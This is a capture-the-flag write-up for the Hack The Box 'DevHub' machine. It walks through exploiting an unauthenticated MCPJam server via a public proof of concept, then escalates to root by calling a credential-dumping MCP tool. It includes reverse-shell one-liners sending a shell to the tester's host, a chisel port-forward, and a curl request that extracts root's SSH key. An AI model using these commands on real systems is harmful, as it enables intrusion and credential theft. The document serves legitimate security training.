









<h1>HTB: DevHub</h1>


| Field      | Details                                                          |
|------------|------------------------------------------------------------------|
| Platform   | [Hack The Box](https://app.hackthebox.com/machines/DevHub)       |
| Difficulty | Medium                                                           |
| OS         | Linux                                                            |
| Author     | ByteFragment                                                     |
| Date       | May 30th 2026                                                    |

--- 

<h2>Reconnaissance</h2>

Port scanning the target using nmap via the command:

```
sudo nmap -sT -sV -T4 10.129.1.130 -oN nmap
```

This gave me the open tcp ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap`.

From the nmap results we can see there are two open ports on the machine port `22` running an ssh service and `80` running an http service:

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-30 16:00 -0700
Nmap scan report for 10.129.1.130
Host is up (0.083s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting the target url on port 80 reveals a DuvHub "Internal Development & Analytics Platform" that reveals that there is an `MCP Inspector` running on external port `6274` as well as an `Analytics Dashboard` running on internal port `8888`:



Going to `devhub.htb:6274` reveals an public facing `MCP Jam` dashboard that does not require any authentication:



<h2>Exploitation</h2>

The settings tab reveals that this MCPJam is running `version v1.4.2`, knowing this will help us search for any vulnerabilities targeting this specific version!

After a quick search we find there is indeed a vulnerability in this version of MCPJam, [CVE-2026-23744](https://nvd.nist.gov/vuln/detail/CVE-2026-23744) which is a "remote code execution (RCE) vulnerability, which allows an attacker to send a crafted HTTP request that triggers the installation of an MCP server, leading to RCE."

Github user `oroeurnprach` provides a [POC](https://github.com/boroeurnprach/CVE-2026-23744-PoC) that we can use to exploit this MCP Server.

Lets first set up a netcat listener:
```
nc -lvnp 4444
```

Now lets use the POC exploit.py to gain a reverese shell on the system with the command:
```
python3 exploit.py devhub.htb 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.138 4444 >/tmp/f'
```

Success! We have a reverese shell!



Referencing back to the DevHub webpage we can see that there is a `Analytics Dashboard` running on `localhost:8888`. We can confirm that this port is open/listening with the command:
```
ss -tulnp | grep 8888
```

And we can see that it is indeed listening:
```
$ ss -tulnp | grep 8888
tcp   LISTEN 0      128        127.0.0.1:8888      0.0.0.0:* 
```

In order to access this service we will need to set up a port forward using something like [chisel](https://github.com/jpillora/chisel).

We first need to set up a chisel server on our attack machine using the command:
```
./chisel server --reverse --port 9000
```

Then in our reverse shell on out target machine we need to transfer over the chisel binary by setting up a python web server on our attack machine and retrieving the binary by running the command:
```
wget http://10.10.14.138:80/chisel
```

Now that we have the chisel binary on the target machine we can start our chisel client by running the command:
```
./chisel client 10.10.14.138:9000 R:8888:127.0.0.1:8888
```

We should now be able to access the Jupyter instance running on target `localhost:8888` by entering `127.0.0.1:8888` in a web browser on out attack machine:



It looks like we need a token to login.

Running the command:
'''
ps -aux : grep jupyter
'''

Gives us a running jupyter process that contains the token necessary to login:
```
ps -aux | grep jupyter
analyst     1036  0.0  2.4 183088 97692 ?        Ss   May30   0:06 /home/analyst/jupyter-env/bin/python3 /home/analyst/jupyter-env/bin/jupyter-lab --ip=127.0.0.1 --port=8888 --no-browser --notebook-dir=/home/analyst/notebooks --ServerApp.token=******************************* --ServerApp.password= --ServerApp.allow_origin= --ServerApp.disable_check_xsrf=False
```

After logging in we are greeted with a Jupyter dashboard:



From here we can run a python console!

Running the commands:
```
import os;
os.system('whoami')
```

We can see we are running these commands as the `analyst` user:



We can use this to create a reverse shell by setting up a listener and running the following commands in the python console:
```
import os;
os.system('cat /tmp/f|sh -i 2>&1|nc 10.10.14.138 4321 >/tmp/f')
```

We have successfully gained a reverse shell running as `analyst`:



The user flag can be found in analyst's home directory.

<h2>Escalation</h2>

In the `/opt/opsmcp/server.py` we can see something very interesting:

```
...

# API Key for authentication
VALID_API_KEY = "opsmcp_secret_key_4f5a6b7c8d9e0f1a"

...

elif tool_name == "ops._admin_dump":
        target = args.get('target', '')
        confirm = args.get('confirm', False)
        
        if not confirm:
            return jsonify({
                "error": "Confirmation required",
                "usage": "Set confirm=true to proceed",
                "warning": "This dumps sensitive credentials"
            })

    if target == "ssh_keys":
                try:
                    with open('/root/.ssh/id_rsa', 'r') as f:
                        key_data = f.read()
                    return jsonify({
                        "target": "ssh_keys",
                        "root_private_key": key_data,
                        "note": "Emergency recovery key dump"
                    })
                except Exception as e:
                    return jsonify({
                        "target": "ssh_keys",
                        "error": f"Could not read key: {str(e)}"
                    })
            
    elif target == "passwords":
        return jsonify({
            "target": "passwords",
            "dump": {
                "root": "$6$rounds=656000$saltsalt$hashedpassword",
                "analyst": "JupyterN0tebook!2026",
                "mcp-dev": "Mcp!Insp3ct0r2026"
            }
        })

...

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000, debug=False)
```

This tool endpoint should allow us to retrieve the root ssh key using the following `curl` command:
```
curl -H "X-API-Key: opsmcp_secret_key_4f5a6b7c8d9e0f1a" -X POST http://127.0.0.1:5000/tools/call -H "Content-Type: application/json" -d '{"name":"ops._admin_dump","arguments":{"target":"ssh_keys","confirm":true}}'
```


We can then copy this into a file, change the permissions, and ssh into the target machine:



We can find the root flag in the `/root` directory and with that complete the challenge!


